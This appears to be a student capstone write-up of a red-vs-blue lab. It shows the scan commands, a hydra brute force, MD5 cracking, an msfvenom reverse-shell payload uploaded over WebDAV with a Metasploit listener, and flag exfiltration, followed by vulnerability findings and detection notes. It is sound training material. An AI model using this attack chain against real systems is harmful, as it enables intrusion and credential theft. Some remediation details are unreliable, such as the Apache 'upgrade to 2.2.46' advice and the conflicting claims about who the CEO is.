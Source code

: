 # Red-vs-Blue-team-project
![image](https://user-images.githubusercontent.com/93951164/172183135-bcba72f9-8218-4347-b0a1-b3357e42fb22.png)

Red Team Environment
![image](https://user-images.githubusercontent.com/93951164/172183644-704fc94b-0767-4825-98a4-cc7e2236fb7c.png)


Blue Team Environment
![image](https://user-images.githubusercontent.com/93951164/172183602-e05f67a5-c68e-4f60-a6e7-8f309fdcfa65.png)



RED TEAM - Penetration Test
EXPLOITATION
Discover target IP:
To discover the target ip:
netdiscover -r <ip subnet>
 ![image](https://user-images.githubusercontent.com/93951164/172183767-b4d872a5-8284-4cef-8715-17feaaf50a54.png)



IP
Machine
192.168.1.1
Gateway IP, Hyper-V
192.168.1.100
ELK server
192.168.1.105
Capstone, target machine

Service and version scan:
nmap -sV -v 192.168.1.105
 
Port
Service
Version
Port 22
SSH
OpenSSH 7.6p1
Port 80
HTTP
Apache httpd 2.4.29

![image](https://user-images.githubusercontent.com/93951164/172183948-c5a858fd-f171-485a-a987-76f4cd11ae14.png)

![image](https://user-images.githubusercontent.com/93951164/172183970-515cea98-3528-4b92-aa5e-9c04972e3091.png)

Aggressive scan:
nmap -A -vvv 192.168.1.105
 
A simple aggressive scan reveals a web server directory structure on tcp port 80, which is a http port, and two potential usernames of employees – ashton and hannah (which will be more relevant for brute forcing later):
![image](https://user-images.githubusercontent.com/93951164/172184023-ef8199ba-6485-4260-ade2-a03d25def67e.png)

![image](https://user-images.githubusercontent.com/93951164/172422198-48f6259d-af5f-4e98-9495-46046796c7b1.png)

Navigating the Webserver:
As this is a webserver, we can investigate further from a browser in the attacker machine:

In a text document the blog directory we can see a 3rd potential username – Ryan, who would potentially have the highest level access as CEO:

In the company folders directory, we can see reference to a "secret_folder" in ALL documents within this directory, which is now a target for this Penetration Test.

The meet_our_team folder confirms the three potential users, and each document references the secret_folder:

As we can see below, we will need Ashton's password to gain access to the secure hidden folder.

Vulnerability scan:
nmap -A --script=vuln -vvv 192.168.1.105
 
Returning to scanning for further recon.
Aggressive scan with a vulnerability script reveals:
Webdav vulnerability
SQL Injection vulnerability across all directories on the webserver
CVE-2017-15710 – Apache httpd vulnerability




Bruteforce:
Now that we have some usernames and a main target - Ashton, using hydra we can attempt to bruteforce the login for the secret_folder.
Ashton, the CEO, had a common password within our password list. Using the following command, we could get Ashton's password.
hydra -l ashton -P /opt/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get "/company_folders/secret_folder"
 

SSH:
ssh ashton@192.168.1.105
 
Using Ashton's credentials we could gain ssh entry into the server.


Flag 1
In the root home directory we could pickup a flag.

Using the same credentials, we could access the protected hidden folder.

Password hash:
Within this folder was a document with instructions to connect to a corp_server. Included in the document are Ryan's hashed credentials and reference to a webdav directory


Th hashed md5 password was instantly cracked using Crackstation, revealing the password linux4u

Webdav:
We could then login to webdav using Ryan's credentials.


Reverse Shell:
Msfvenom
The next task was to upload a shell script to webdav, in order to create a reverse shell.
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 -f raw -o shell.php
 
Using msfvenom we created a payload – shell.php

Cadaver
cadaver http://192.168.1.105/webdav
 
Using cadaver and Ryan's credentials we accessed webdav, and uploaded the payload to the webdav directory.


Metasploit
msfconsole
use multi/handler
 
Once the payload was successfully uploaded, in order to create the reverse shell, we setup a listener using Metasploit.

After loading the exploit and activating the shell.php we uploaded earlier by clicking on it on the webserver, the target server connected to our listener and launched a meterpreter session into their system.

Gaining Interactive Shell:
python -c 'import pty; pty.spawn("/bin/bash")'
 

Finding Flag 2:
The next flag was located in the root directory.

Exit back to meterpreter.


Exfiltration:
The file was easily exfiltrated back to the attacker machine.


Vulnerabilities
Webserver
1. Directory listing vulnerability. Webserver directories are open to the public and navigable in a browser.
CWE-548: Exposure of Information Through Directory Listing
https://cwe.mitre.org/data/definitions/548.html
Attackers can gather a lot of information from open directories. They can use this information and access to launch attacks and upload malicious content. These directories may also be vulnerable to path traversal in which users can navigate across to sensitive regions of the system.
Disable the ability to view directories in the browser, and disable access/password protect all directories to avoid path traversal. Sanitise input to avoid malicious SQL statements.
2. SQL Injection. Nmap revealed a possible vulnerability to SQL injection to the directories in the webserver.
This can allow attackers to enter malicious code and gain access or launch attacks.
Sanitise inputs.
3. Documents with usernames in plain text are available to the public in the webserver
CWE-312: Cleartext Storage of Sensitive Information
https://cwe.mitre.org/data/definitions/312.html
CWE-256: Unprotected Storage of Credentials
https://cwe.mitre.org/data/definitions/256.html
Attackers can use this information in bruteforce attacks. Even just one name can lead to a system breach.
Users should not be using their own names as usernames. User names should not be published anywhere, especially not a webserver.
4. Documents in the webserver give direct reference to a hidden directory with sensitive data.
These are breadcrumbs that attackers will follow, with a direct reference to a hidden directory attackers can focus attacks to access the contents of the directory.
Do not reference sensitive directories in publicly available documents. If it is necessary to mention it, then encrypt and password protect.
5. Webdav is enabled and allows uploading of malicious script.
CWE-434: Unrestricted Upload of File with Dangerous Type
https://cwe.mitre.org/data/definitions/434.html
It is easy to create a shell in the target system using a reverse shell, by opening a meterpreter session
Disable webdav
6. Missing encryption of sensitive data.
CWE-311: Missing Encryption of Sensitive Data
https://cwe.mitre.org/data/definitions/311.html
7. CWE-522: Insufficiently Protected Credentials
Users and Passwords
1. Usernames are employee first names.
These are too obvious and most likely discoverable through Google Dorking. All are high level employees of the company which are more vulnerable, and certainly easier to find in the company structure in publicly available material.
Attackers can (with very little investigation) create a wordlist of usernames of employees for bruteforcing.
Usernames should not include the person's name.
2. Ryan's password hash was printed into a document, publicly available on the webserver.
The password hash is highly confidential and vulnerable once an attacker can access it.
CWE-256: Unprotected Storage of Credentials
https://cwe.mitre.org/data/definitions/256.html
A password hash is one of the highest targets for an attacker that is trying to gain entry; being able to navigate to one in a browser through minimal effort is a critical vulnerability.
Password hashes should remain in the /etc/shadow directory with root only access in the system, and not be published or copied anywhere.
3. CWE-759: Use of a One-Way Hash without a Salt.
https://cwe.mitre.org/data/definitions/759.html
CWE-916: Use of Password Hash With Insufficient Computational Effort
https://cwe.mitre.org/data/definitions/916.html
Ryan's password is only hashed, but not salted. A password hash can be run through apps to crack the password, however a salted hash will be almost impossible to crack.
A simple hash can be cracked with tools in linux or through websites, in this case it took seconds to crack Ryan's hash.
Salt hashes.
4. CWE-521: Weak Password Requirements.
https://cwe.mitre.org/data/definitions/521.html
Passwords need to have a minimum requirement of password length and use of mixed characters and case.
linux4u is a simple phrase with very common word substitution – 4=for, u=you. and leopoldo is a common name that could easily be bruteforced with a common password list.
Require strong passwords that exclude phrases and names, minimum 8 characters, mixed characters that include a combination of lower case, upper case, special characters and numbers.
Consider implementing multi-factor authentication.
Apache 2.4.29
1. CVE-2017-15710
This potential Apache httpd vulnerability was picked up by nmap and relates to a configuration that verifies user credentials; a particular header value is searched for and if it is not present in the charset conversion table, it reverts to a fallback of 2 characters (eg. en-US becomes en). While this risk is unlikely, if there is a header value of less than 2 characters, the system may crash.
This vulnerability has the potential to force a Denial of Service attack.
As this vulnerability applies to a range of Apache httpd versions from 2.0.23 to 2.4.29, upgrading to the latest version 2.2.46 may mitigate this risk.
2. CVE-2018-1312
While this vulnerability wasn't picked up in any scans, the apache version remains vulnerable. From cve-mitre "When generating an HTTP Digest authentication challenge, the nonce sent to prevent reply attacks was not correctly generated using a pseudo-random seed. In a cluster of servers using a common Digest authentication configuration, HTTP requests could be replayed across servers by an attacker without detection."
With this vulnerability, an attacker would be able to replay HTTP requests across a cluster of servers (that are using a common Digest authentication configuration), whilst avoiding detection.
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
3. CVE-2017-1283
Mod_session is configured to forward its session data to CGI applications
With this vulnerability, a remote user may influence their content by using a "Session" header.
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
4. CVE-2017-15715
This vulnerability relates to malicious filenames, in which the end of filenames can be matched/replaced with '$'
In systems where file uploads are externally blocked, this vulnerability can be exploited to upload malicious files
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
 
Identifying the port scan:
Filtering for Nmap:


Monitoring requests to the " _ secret_folder _ ":



Filtering for the Hydra brute force attack:
There were 346,595 bruteforce attempts made with Hydra.


Finding the WebDAV connection:
A reverse shell in webdav was used 20 times.



 

